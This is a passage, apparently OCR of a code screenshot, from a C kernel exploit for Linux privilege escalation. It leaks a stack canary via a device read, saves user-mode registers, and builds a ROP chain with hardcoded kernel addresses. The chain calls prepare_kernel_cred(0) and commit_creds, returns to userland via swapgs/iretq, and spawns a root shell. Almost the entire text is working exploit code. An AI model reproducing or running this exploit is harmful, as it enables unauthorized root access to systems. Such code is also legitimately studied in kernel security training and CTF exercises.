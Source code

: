     uint64_t leak[sz];
    printf("[*] trying to leak up to %ld bytes memory\n", sizeof(leak));
    uint64_t data = read(global_fd, leak, sizeof(leak));
    cookie = leak[cookie_off];
    printf("[+] leaked cookie 0x%lx at offset %d \n", cookie, cookie_off);
}

void save_state(){
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );
    puts("[*] Saved state");
}

void payload(){
    uid_t uid = getuid();
    if (uid == 0) {
        printf("[+] we are root (uid = %d)\n", uid);
    } else {
        printf("[!] we are not root (uid: %d)\n", uid);
        exit(-1);
    }
    execl("/bin/sh", "sh", NULL);
    exit(0);
}

uint64_t user_rip = (uint64_t) payload;     // the last part of our ROP chain

uint64_t prepare_kernel_cred = 0xffffffff814c67f0;   // the offset from /proc/kallsyms
uint64_t commit_creds = 0xffffffff814c6410;

uint64_t pop_rdi_ret = 0xffffffff8100767c;     // pop rdi; ret
uint64_t mov_rdi_rax_movrsi_poprbp = 0xffffffff816bf203; // mov rdi, rax; mov [rsi+0x140], rdi; pop rbp; ret;
uint64_t swapgs_poprbp_ret = 0xffffffff8120109c; // swapgs; pop rbp; ret;
uint64_t iretq = 0xffffffff8100c0d9; // iretq;

void overflow_stack(){
    uint8_t sz = 40;
    uint64_t payload[sz];
    payload[cookie_off++] = cookie;
    payload[cookie_off++] = (uint64_t) 0;  // RBX
    payload[cookie_off++] = (uint64_t) 0;  // R12
    payload[cookie_off++] = (uint64_t) 0;  // RBP
    payload[cookie_off++] = (uint64_t) pop_rdi_ret;
    payload[cookie_off++] = (uint64_t) 0;
    payload[cookie_off++] = (uint64_t) prepare_kernel_cred;  // prepare_kernel_cred(0)

    payload[cookie_off++] = (uint64_t) mov_rdi_rax_movrsi_poprbp;  // need to move result to rdi
    payload[cookie_off++] = (uint64_t) 0; // popped to ebp
    payload[cookie_off++] = (uint64_t) commit_creds; // commit_creds(prepare_kernel_cred(0))

    payload[cookie_off++] = (uint64_t) swapgs_poprbp_ret; // swapgs
    payload[cookie_off++] = (uint64_t) 0; // this is popped to rbp

    payload[cookie_off++] = (uint64_t) iretq;  // restore registers from user mode
    payload[cookie_off++] = (uint64_t) user_rip;
    payload[cookie_off++] = (uint64_t) user_cs;
    payload[cookie_off++] = (uint64_t) user_rflags;
    payload[cookie_off++] = (uint64_t) user_sp;
    payload[cookie_off++] = (uint64_t) user_ss;
